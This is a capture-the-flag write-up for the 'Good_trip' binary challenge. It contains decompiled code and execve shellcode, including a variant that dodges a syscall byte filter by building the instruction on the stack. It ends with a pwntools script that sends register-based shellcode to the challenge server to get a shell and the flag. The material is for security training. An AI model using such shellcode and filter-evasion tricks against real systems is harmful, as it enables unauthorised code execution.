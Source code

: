# Good_trip

> <p>if you think about it? it doesn't make any sense. GOOOOD TRIP</p>
> <p><a href="attachments/good_trip.zip"></a>good_trip.zip</p>

## Path to Flag

We are given a main function
```
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char cVar1;
  int local_14;
  void *local_10;
  
  local_14 = 0;
  init(param_1);
  local_10 = mmap((void *)0x1337131369,0x1000,7,0x22,-1,0);
  printf("code size >> ");
  __isoc99_scanf(&DAT_00402027,&local_14);
  if ((-1 < local_14) && (local_14 < 0x1001)) {
    printf("code >> ");
    read(0,local_10,0x999);
    mprotect(local_10,(long)local_14,5);
    cVar1 = filter(local_10);
    if (cVar1 != '\0') {
      puts("nop, not happening.");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    exec(local_10);
  }
  return 0;
}
```

The main function above shows that this challenge is about shellcode. So based on standard condition, I tried the syscall assembly shellcode.

```
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

Seems like syscall and similar functions are blacklisted, so I just tried to use one_gadget to find another alternative that leads to syscall.

The first thing I did was trying to find an alternative method that leads to syscall.

```
/* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
        /* push b'/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00', '-p\x00'] */
        /* push b'sh\x00-p\x00' */
        mov rax, 0x101010101010101
        push rax
        mov rax, 0x101010101010101 ^ 0x702d006873
        xor [rsp], rax
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 0xb
        pop rsi
        add rsi, rsp
        push rsi /* '-p\x00' */
        push 0x10
        pop rsi
        add rsi, rsp
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push 0x3b /* 0x3b */
        pop rax
        //syscall
        push 0x050e
        inc qword ptr [rsp]
        jmp rsp
        nop
```

But somehow it doesn't work cause the stack are all cleared. Hence the program doesn't have a stack register. Because of the lack of experience, I used another way which is `one_gadget`.

The thing I did is to find register that is not NULL, by setting a breakpoint and find register information.

```
gdb ./good_trip
b main
r
info registers
```

<img src="attachments/registers.png"><br>

Besides the top 8 registers, `r9` and `r10` are the one I tried the first, unfortunately `r9` doesn't work but `r10` works. Therefore, I just simply create the script to make things easier.

```
#!/usr/bin/python3

from pwn import *

host = '172.210.129.230'
port = 1351
context.update(terminal=['tmux', 'new-window'], os='linux', arch='amd64')
connection = remote(host, port)

connection.recvuntil(b">> ")
connection.sendline(b"100")
connection.recvuntil(b">> ")

shellcode = """
sub r10, 0x193fe0
mov rsp, r10
add r10, 0x288f8
add rsp, 0x1e5000

xor rsi, rsi
push rsi
mov rdi, 0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 59
pop rax
cdq
call r10
"""

assembled_shellcode = asm(shellcode)
connection.sendline(assembled_shellcode)
connection.interactive()
```

Enter the command `cat flag.txt` after successfully entering the shell.

<img src="attachments/flag.png"><br>

`AKASEC{y34h_You_C4N7_PRO73C7_5om37hIn9_YoU_doN7_h4V3}`